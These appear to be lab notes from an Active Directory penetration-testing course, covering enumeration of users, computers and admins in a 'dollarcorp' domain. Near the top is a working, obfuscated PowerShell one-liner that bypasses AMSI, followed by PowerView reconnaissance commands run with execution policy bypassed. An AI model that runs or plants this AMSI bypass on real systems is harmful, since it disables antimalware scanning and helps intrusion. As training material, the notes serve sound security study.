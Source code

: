 Enumeration


# PowerShell 1337 Color Mode:

```
$host.UI.RawUI.ForegroundColor = "DarkGreen"
$host.UI.RawUI.BackgroundColor = "Black"
```

# Bypass AMSI:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

# **Learning Objective 1:**
- Enumeratate following for the dollarcorp domain:
    - Users
    - Computers
    - Domain Administrators
    - Enterprise Administrators
    - Shares

* * *


# Enumerate Users:

```
powershell -ep bypass
. .\PowerView.ps1
Get-NetUser
```

- List specicific property of all the users e.g. samaccountname:

```
Get-NetUser | select -ExpandProperty samaccountname
```
